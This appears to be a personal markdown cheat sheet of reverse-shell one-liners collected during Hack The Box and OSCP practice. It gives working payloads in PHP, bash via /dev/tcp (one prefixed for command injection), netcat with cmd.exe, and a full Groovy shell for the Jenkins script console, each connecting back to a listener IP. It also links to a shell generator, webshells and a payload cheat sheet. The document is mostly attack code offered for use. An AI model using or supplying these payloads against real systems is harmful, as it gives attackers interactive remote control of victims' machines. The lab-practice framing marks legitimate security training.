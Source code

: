 ## Reverse shells that actually worked during my travels

## Php

```
php -r '$sock=fsockopen("10.10.14.31",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bash

``` (from Script Kiddie, htb)
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.176/4444 0>&1' #
```


## Bash2

```(From OSCP Study, this takes no " or ')
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```


## Reverse Shell Generator:

https://github.com/mthbernardes/rsg

## Reverse shells:

-webshells
https://github.com/jbarcia/Web-Shells/tree/master/laudanum

-reverse shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Netcat on windows:

```
nc.exe -nv 10.10.14.31 4444 -e cmd.exe

```

## Netcat without an "-e" or "-c" option

```
/bin/sh | nc [IPADDR] [PORT]
```


## Groovy via Scipt Console on Jenkins

```groovy

String host="10.10.14.18";
int port=4444;
String cmd="sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();



```